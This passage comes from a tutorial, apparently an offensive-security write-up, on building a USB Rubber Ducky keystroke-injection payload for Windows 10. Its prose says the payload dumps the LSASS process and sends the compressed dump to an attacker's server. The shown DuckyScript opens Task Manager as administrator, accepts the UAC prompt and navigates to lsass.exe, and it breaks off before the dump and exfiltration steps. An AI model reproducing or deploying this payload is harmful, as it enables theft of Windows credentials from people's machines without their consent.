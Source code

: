 The Task Manager is opened in the `Run` window with administrative privileges. The screen turns entirely dark for a second due to the User Access Control (UAC) prompt, which prevents the GIF creator from recording the screen. Then, the Local Security Authority Process (lsass.exe) is located in the list of processes and dumped into the %TEMP% directory (by default). A PowerShell one-liner is then executed entirely from the run window. It compresses the LSASS dump into a ZIP file and sends it to the attacker's server.

### Create the Keystroke Injection Payload

Comments (`REM`) have been added to each line in the payload for clarity.

```bat
REM 2.5 second delay to give Windows 10 some time to properly
REM mount the USB Rubber Ducky. This initial delay isn't
REM required with Mousejack attacks.
DELAY 2500

REM Open the run command window.
GUI r

REM Allow the run command window 1 second to open.
DELAY 1000

REM Type "taskmgr" (i.e., Task Manager) into the run window.
STRING taskmgr

REM Delay for .5 seconds.
DELAY 500

REM Ctrl+Shift+Enter keyboard combination is pressed to invoke
REM the User Account Control (UAC) window. This will cause
REM taskmgr to open with administrative privileges.
CTRL+SHIFT ENTER

REM Allow the UAC window to popup. This can take several seconds
REM on some Windows 10 machines.
DELAY 2500

REM ALT+y keyboard combination to accept and bypass the UAC
REM prompt.
ALT y

REM Allow several seconds for Task Manager to fully open with
REM admin privileges. This took (on average) 5.5 seconds in my
REM tests. In some scenarios, with high-end CPUs, this delay
REM can be considerably lower.
DELAY 5500

REM Press down on the keyboard to move from the tool bar to the
REM list of active background processes.
DOWN

REM Type "local" to jump down and highlight the "Local Security
REM Authority Service" processes.
STRING local

REM SHIFT+F10 keyboard combination invokes the right-click options
REM menu.
SHIFT F10

REM Allows 1.2 seconds for the options menu to fully open.
DELAY 1200

REM Press down on the keyboard 4 times to highlight the "Create
```